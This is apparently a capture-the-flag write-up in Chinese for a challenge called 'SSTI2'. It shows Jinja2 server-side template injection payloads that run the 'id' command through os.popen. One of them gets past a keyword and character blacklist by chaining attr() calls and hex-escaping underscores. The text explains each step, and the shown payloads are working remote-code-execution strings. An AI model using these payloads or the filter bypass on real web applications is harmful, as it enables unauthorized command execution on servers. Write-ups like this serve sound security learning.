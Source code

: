 ## SSTI2

![Screenshot_2025-05-21_00-50-47](https://github.com/user-attachments/assets/15e13182-7f12-4186-b131-0ddf72b10968)
![Screenshot_2025-05-21_00-51-13](https://github.com/user-attachments/assets/7922c3ba-d8f1-4fed-9fe0-c536d7eb2d94)

### 解題過程

我使用了典型的 Python Jinja2 RCE payload 嘗試取得系統資訊
```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
伺服器回傳
![Screenshot_2025-05-21_00-56-51](https://github.com/user-attachments/assets/aced685a-8f45-4509-a72c-72fa44fd337d)

多次嘗試後發現
- 幾乎所有關鍵字或符號都被過濾：像是 `__`, `.`, `[`, `]`, `|` 等
- 常見的 Python 關鍵字如 `join`, `mro`, `base` 等也被攔截
表示伺服器存在黑名單機制
運用了 @SecGus 在 GitHub 上的技巧：
參考資料：[PayloadsAllTheThings - SSTI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)
關鍵概念是：
- 使用 `attr()` 函式來取代點記法；
- 用十六進位表示字串（例如 `__` → `\x5f\x5f`）來繞過字元過濾。
統整出
```jinja
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
運作原理如下：

1. 透過 `request` 取得 `application` 對象；
2. 進入其 `__globals__`；
3. 從中找到 `__builtins__`，再透過 `__import__` 載入 `os` 模組；
4. 執行 `os.popen('id').read()`，執行系統命令並回傳輸出。

![Screenshot_2025-05-21_01-05-23](https://github.com/user-attachments/assets/49e44d53-f16d-4c45-8c46-bb7aeeb38524)

flag get!
